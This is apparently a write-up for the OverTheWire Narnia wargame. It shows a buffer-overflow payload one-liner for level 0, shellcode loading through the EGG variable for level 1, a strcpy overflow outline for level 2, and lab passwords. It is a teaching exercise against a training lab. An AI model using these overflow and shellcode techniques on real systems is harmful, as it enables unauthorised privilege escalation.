 # Walkthrough for the Narnia of OTW

## Introduction:
Try it for yourself before you look for help ;)

## Usefule information

The applicatoins are compiled with the following flags:

    -m32                    compile for 32bit
    -fno-stack-protector    disable ProPolice
    -Wl,-z,norelro          disable relro 

## Preparations
I added the server ``narnia.labs.overthewire.org'' and port 2226
into the ssh config file:

    Host narnia.labs.overthewire.org
    port 2226

## Level 0:

Username: narnia0
Passwort: [ narnia0 ]

The file ist stored in the directory /narnia, the application
is named narnia0, the source code is given in the file narnia0.c.

    cd /narnia

First of all we run the application once and take a look, what it does.

    ./narnia0

After prompting us with the target to change (aka. ``correct'') the value
from 0x41414141 -> 0xdeadbeef we are given the chance to enter something.
Entering ``something'' results in a hint, that this was not correct

    ./narnia0
    something

A single look into the source shows the path. The memory layout and use
of scanf cries for a buffer overflow. Now we just have to generate the payload
and ship it to the program.

Python can be used to create the payload:

    python -c "print(20*'a' + chr(0xef) + chr(0xbe) + chr(0xad) + chr(0xde))" | ./narnia0

which can be piped to the file. Now we are not yelled at, but nothing more is
happening. This is due to line 32. The opened shell is closed directly. This
can be fixed by piping multiple commands into the application:

    (python -c "print(20*'a' + chr(0xef) + chr(0xbe) + chr(0xad) + chr(0xde))"; cat)
        | ./narnia0

With the command ``whoami'' we can check, if everything worked:
    whoami
    -> narnia1

Fine, seems like it worked! Now we cat the password for the next level

    cat /etc/narnia_pass/narnia1

### Lessons learned:

Use ``cat'' to pass the input into the opened shell. This will be used in
many more cases.


## Level 1:

Username: narnia1
Passwort: [ efeidiedae ]

A quick peek in the source code shows, that the env var EGG has to be set.
Setting the var to commands like **ls** or **/bin/sh** results in a segfault.
This cries for runnable shellcode to be used.  We will use a shells-script from
a page liek shell-storm. At this moment i'm not capable of writing my own
shell-script from scratch without destroying everything.

Since we want a simple execve to bash i used the following script
    http://shell-storm.org/shellcode/files/shellcode-606.php
save the shellcode without the quotation marks and linebreaks in
a file **shellcode.comp**, upload it via scp and just pass it to EGG via echo:
    export EGG=$(echo -e $(cat shellcode.comp))

Now i can run ./narnia1, get the credentials for narnia2  and be happy

## Level 2:

Username: narnia1
Passwort: [ nairiepecu ]

The vulnerability is hidden in the strcpy and the size of 128 for the target
buffer. By copying more than 128 bytes the return adress can be modified

Using gdb and the python script **findLocation.py** finds the position of the 
return adress.
